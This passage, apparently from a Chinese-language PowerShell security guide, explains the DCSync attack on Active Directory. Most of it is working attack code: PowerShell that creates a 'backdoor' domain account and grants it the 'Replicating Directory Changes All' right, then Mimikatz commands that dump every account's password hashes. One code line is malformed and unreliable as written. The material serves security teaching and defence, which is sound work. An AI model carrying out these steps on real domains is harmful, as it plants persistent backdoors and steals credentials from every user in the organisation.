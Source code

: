 DCSync 攻击是一种技术，攻击者模拟域控制器的行为，诱使其他域控制器复制 AD 特定的信息（例如，`NT Lan Manager`（**NTLM**）哈希值和其他凭证相关数据）到攻击者。此攻击利用了 `Microsoft Directory Replication Service Remote`（**MS-DRSR**）协议，这是 AD 的一个基本且合法的功能，因此无法简单地禁用。

DCSync 攻击允许攻击者模拟域控制器并请求特定用户的密码数据，即使攻击者没有直接访问该用户的计算机或账户。攻击者可以利用这些哈希值在网络中进行横向移动和权限升级。

为了执行此攻击，攻击者必须在域中拥有较高的权限。获取这些权限的一种方式是通过创建后门账户，后门账户可以绕过安全控制并授予攻击者更高的权限。

首先，我们创建一个新用户账户，`"backdoor"`，它应作为攻击者的 `backdoor` 账户：

```
$AttackerName = "backdoor"
$AttackerPassword = Read-Host -AsSecureString
$AttackerDescription = "Backdoor account for DCSync attack"
$AttackerPath = "OU=Service Accounts,OU=Tier 0,DC=PSSec,DC=local"
New-ADUser -Name $AttackerName -AccountPassword $AttackerPassword -Description $AttackerDescription -Path $AttackerPath -Enabled $true
```

接下来，我们创建将在 DCSync 攻击中使用的变量。首先，我们检索之前创建的后门用户的名称，并将其保存在 `$AttackerIdentity` 变量中，以备后用，使用 `NTAccount` 类。

现在，我们连接到域的根目录并检索域的区分名称。我们创建一个 `$ReplAddGUID` 变量来保存“Replicating Directory Changes All”扩展权限的 GUID（**1131f6ad-9c07-11d1-f79f-00c04fc2dcd2**）。我们还创建变量来指定 DCSync 攻击所需的访问控制类型：

```
$AttackerIdentity = System.Security.Principal.NTAccount.Name).ToString()
$Dsa = [ADSI]"LDAP://rootDSE"
$domainDN = $Dsa.defaultNamingContext
$ReplAllGUID = "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2"
$ObjRights = "ExtendedRight"
$ObjControlType  = [System.Security.AccessControl.AccessControlType]::Allow
$ObjInherit = [System.DirectoryServices.ActiveDirectorySecurityInheritance]"All"
```

最后，我们使用攻击者的身份、访问权限、控制类型、继承性以及预定义的 GUID 值创建一个 AD 访问规则。然后，我们使用域名获取域目录对象的安全描述符，将访问规则添加到安全描述符的 DACL 中，并保存对目录对象的更改：

```
$Ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule ($AttackerIdentity, $ObjRights, $ObjControlType , $ObjInherit, $ReplAllGUID)
$Dacl = [ADSI]"LDAP://$domainDN"
$Dacl.psbase.ObjectSecurity.AddAccessRule($Ace)
$Dacl.psbase.CommitChanges()
```

现在，访问权限已相应配置，攻击者可以使用像 Mimikatz 这样的工具提取密码哈希值。

Mimikatz 是一款臭名昭著的工具，最初由 Benjamin Delpy 编写，DCSync 功能由 Vincent le Toux 编写。你可以从 GitHub 下载源代码以及二进制文件：[`github.com/gentilkiwi/mimikatz/wiki`](https://github.com/gentilkiwi/mimikatz/wiki)。

一旦下载了二进制文件或使用源代码构建，导航到 `mimikatz.exe` 文件所在的文件夹并执行它：

```
> .\mimikatz.exe
```

Mimikatz 被加载，现在可以输入你的 `mimikatz` 命令。以下命令允许你执行 DCSync 攻击：

```
> lsadump::dcsync /all /csv
```
